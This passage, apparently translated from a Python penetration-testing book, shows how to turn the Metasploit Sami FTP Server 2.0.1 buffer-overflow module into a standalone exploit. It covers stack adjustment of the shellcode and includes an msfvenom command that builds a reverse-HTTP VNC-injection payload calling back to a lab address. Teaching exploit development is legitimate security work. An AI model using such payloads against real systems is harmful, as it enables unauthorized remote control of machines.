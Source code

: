 回想一下[第 5 章](05.html "Chapter 5. Exploiting Services with Python")，*使用 Python*开发服务，以及我们是如何研究内核是否易受攻击的。考虑如何进行类似的研究可能导致对潜在缓冲区溢出漏洞的引用。您可以从头开始，也可以将 Metasploit 模块反向转换为独立的 Python 脚本，并轻松测试扩展的功能。然后，您可以将更改合并到 Metasploit 模块中，甚至创建自己的模块。

我们将反转 Sami FTP 服务器 2.0.1 的 Metasploit 模块，这在概念上与实际相反。为简洁起见，我们不打算展示该漏洞的全部代码，但您可以在`/usr/share/metasploit-framework/modules/exploits/windows/ftp`的 Metasploit 安装中检查它。有关此模块的更多详细信息，请参见[http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list](http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list) 。

反转 Metasploit 模块时要做的第一件事是设置实际的漏洞利用。这将揭示利用实际服务需要设置的必要参数。如您所见，我们需要用户名、密码和相关负载。

![Reversing Metasploit modules](graphics/B04315_08_42.jpg)

接下来，我们看一下实际有效载荷；我发现将其复制到记事本++之类的代码编辑器中更容易。这允许您查看通常需要的括号和轮廓。与以前编写漏洞利用的示例不同，我们将从实际的外壳代码开始，因为这将花费最多的精力。那么，看看实际 Metasploit 模块的有效负载部分。

![Reversing Metasploit modules](graphics/B04315_08_43.jpg)

如您所见，堆栈调整为 3500，以更准确地适应外壳代码的放置。您可以使用上面突出显示的相同方法再次计算该值。在较新的 Metasploit 模块中，您将看到带正负值的`StackAdjustment`而不是`PrependEncoder`。因此，作为模块开发人员，您不必实际计算十六进制代码。

`-3500`的堆栈调整意味着我们将此值添加到 ESP。为此，我们需要计算`-3500`的 ESP 调整，但对于该计算，我们需要将-`3500`更改为十六进制值。十六进制等价物为`-0xDAC`。

![Reversing Metasploit modules](graphics/B04315_08_44.jpg)

现在，我们将调整数据打印到一个十六进制文件中。

![Reversing Metasploit modules](graphics/B04315_08_45.jpg)

正如您在模块的有效负载部分所看到的，存在已知的错误字符。当我们生成初始有效载荷时，我们将把它们合并到有效载荷生成中。现在，我们用这些特性生成有效负载。

```
msfvenom -p windows/vncinject/reverse_http lhost=192.168.195.172 lport=443 -b '\x00\x0a\x0d\x20\x5c' -f raw -o payload

```

![Reversing Metasploit modules](graphics/B04315_08_46.jpg)

我们验证有效负载是通过`hexdump`命令生成的。

```
hexdump -C payload

```

下图显示了该有效载荷的输出：

![Reversing Metasploit modules](graphics/B04315_08_47.jpg)

要结合堆栈调整代码和实际有效负载，我们可以执行下图中突出显示的方法，该方法显示了此命令的简单性：

![Reversing Metasploit modules](graphics/B04315_08_48.jpg)

执行此操作后，我们验证两个组件的组合，如您所见，调整十六进制代码放置在外壳代码的前面。

![Reversing Metasploit modules](graphics/B04315_08_49.jpg)
